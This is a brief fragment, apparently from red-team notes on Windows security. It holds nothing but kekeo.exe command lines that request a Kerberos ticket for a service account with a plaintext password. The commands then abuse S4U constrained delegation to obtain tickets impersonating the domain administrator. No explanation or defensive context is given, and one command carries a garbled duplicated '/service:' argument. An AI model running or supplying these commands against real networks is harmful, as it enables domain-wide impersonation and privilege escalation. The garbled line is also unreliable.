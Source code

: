 ![](../../../../assets/img/Security/RedTeam/OS安全/Windows安全/1.png)

```
kekeo.exe "tgt::ask /user:sqlsvr /domain:ffffffff0x.com /password:Admin12345" exit

kekeo.exe "tgs::s4u /tgt:TGT_sqlsvr@ffffffff0x.com_krbtgt~ffffffff0x.com@ffffffff0x.com.kirbi /user:administrator@ffffffff0x.com /service:/service:service_to_access" exit

Tgs::s4u /tgt:service_account_tgt_file /user:administrator@ffffffff0x.com /service:service_to_access
```
